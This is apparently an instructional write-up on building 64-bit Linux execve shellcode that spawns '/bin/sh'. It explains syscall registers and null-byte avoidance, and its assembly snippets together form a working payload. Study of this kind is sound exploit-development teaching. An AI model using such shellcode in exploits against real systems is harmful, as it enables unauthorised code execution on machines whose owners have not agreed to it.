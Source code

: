 # Spawn-shell shellcode

In this section I'm writing 64 bit shellcode. The process is a bit likely to the 32 bit code I wrote for 
the spawn-shell shellcode.

In 64 bit, the process of calling a syscall has the same process, but is only used with different names. For example to call the syscall we don't use the ```int 0x80``` like in 32 bit, we use ```syscall``` instead.  

The registers has also different names and order, like:  
```Python
RAX = syscall number
RDI, RSI, RDX, R10, R8, R9 = parameters of syscall function
```

The addresses in 64 bit is also longer than the 32 bit one, we can pass 8 bytes in one address. This is quite handy, 
because the string //bin/sh is 8 bytes, so we don't have to worry about having zero's in our shellcode as in result 
of empty spaces in the address.
  
To create the shellcode, we first have to push the zero terminated //bin/sh string onto the stack.
```asm
xor rax, rax
push rax    ; push string terminator.
mov rsi, 0x68732f6e69622f2f ; //bin/sh
push rsi    ; push the string.
push rsp    ; push the address of the stack-pointer.

pop rdi     ; put the stack-address into the first paramter.
; now RDI contains //bin/sh
```

In order to set the RAX value with the execve() syscall, we have to set the register with the value of 59. This can 
be found on the file with the list of syscalls and their numbers:
```bash
/usr/include/asm/unistd_64.h
```
The process of putting the value 59 to the value RAX without having to end up with zero's in our shellcode, we simply have to 
push the value 59 on the stack and pop it in the RAX register.  
```asm
push 59
pop rax
```
  
Now it is simply putting the other registers on zero and call the syscall.
```asm
xor rsi, rsi  ; second paramter
xor rdx, rdx  ; third paramter

syscall
```
